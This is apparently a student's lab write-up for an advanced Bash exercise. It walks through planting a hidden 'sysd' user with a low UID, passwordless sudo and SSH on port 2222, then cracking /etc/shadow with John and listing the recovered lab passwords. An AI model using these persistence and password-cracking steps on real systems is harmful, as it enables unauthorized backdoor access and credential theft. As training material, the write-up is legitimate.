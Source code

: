 ## Week 6 - Advanced Bash 

Create a secret user named `sysd`. Make sure this user doesn't have a home folder created.
```bash
useradd sysd
```
Give your secret user a password.
```bash
passwd sysd
```
*the password is "thecoolest"

Give your secret user a system UID < 1000.
```bash
usermod -u 990 sysd
```
Give your secret user the same GID
```bash
groupmod -g 990 sysd
```
Give your secret user full sudo access without the need for a password.
- `sudo visudo`
```bash
sysd ALL=(ALL) NOPASSWD:ALL
#I edited the sudoers file.
```

Test that sudo access works without your password

```bash
sudo -l #it worked!
sudo apt install tree
sudo -V
```

## Allow ssh access over port 2222.

Command to edit the `sshd_config` file:

```bash
sudo nano /etc/ssh/sshd_config
```

Command to restart the ssh service:
```bash
systemctl restart ssh
```
Exit the root account:
```bash
exit #to log out of root account
exit #to log out of target machine
```
SSH to the target machine using your `sysd` account and port 2222:
```bash
ssh sysd@192.168.0.11 -p 2222
```
Use sudo to switch to the root user
```bash
sudo su
```
## Crack _all_ the passwords

Ssh back to the system using your sysd account
```bash
ssh sysd@192.168.0.11 -p 2222
```

- Use John to crack the entire /etc/shadow file
```bash
john /etc/shadow --show
sysadmin:passw0rd:18387:0:99999:7:::
student:Goodluck!:18387:0:99999:7:::
mitnik:trustno1:18387:0:99999:7:::
babbage:freedom:18387:0:99999:7:::
lovelace:dragon:18387:0:99999:7:::
stallman:computer:18387:0:99999:7:::
turing:lakers:18387:0:99999:7:::
#my password for sysd was taking forever to crack, but I already know what it is: thecoolest
```
